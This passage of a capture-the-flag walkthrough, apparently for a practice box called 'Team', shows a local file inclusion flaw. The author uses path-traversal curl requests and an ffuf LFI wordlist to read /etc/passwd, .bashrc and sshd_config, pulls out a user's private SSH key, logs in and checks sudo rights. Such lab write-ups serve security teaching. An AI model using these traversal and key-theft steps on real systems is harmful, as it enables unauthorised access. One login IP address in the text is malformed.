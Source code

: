 ````
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
````

This confirms that there is a working LFI. There is a "Dale" user with ID 1000 so I will start with that.
I also confirmed that the "Dale" user has a home folder with curl.
````
curl http://dev.team.thm/script.php?page=../../../../../../../../../home/dale/.bashrc

# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
-----SNIP-----
````

I then tried to curl for "/home/dale/.ssh/id_rsa" but sadly it returned nothing so the file does not exist.
I wanted to automate querying of the files so I used ffuf to do that.
````
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -t 80 -u http://dev.team.thm/script.php?page=../../../../../../../../..FUZZ -fs 1
````
Returns a number of files and after looking at a few of them I checked the "/etc/ssh/sshd_config" which at the bottom contained the dale user id_rsa file.
I copied it to a file and removed all the "#"s before the key. I used "chmod 600 id_rsa_dale" to modify the permissions of the file so I wouldn't the an error about unprotected private key file.
Now I should be able to log in using "ssh -i id_rsa_dale dale@10.10.10.28.97".
````
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
````

One of the first things I do when getting into a box is to check if I can run anything with sudo.
````
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
````
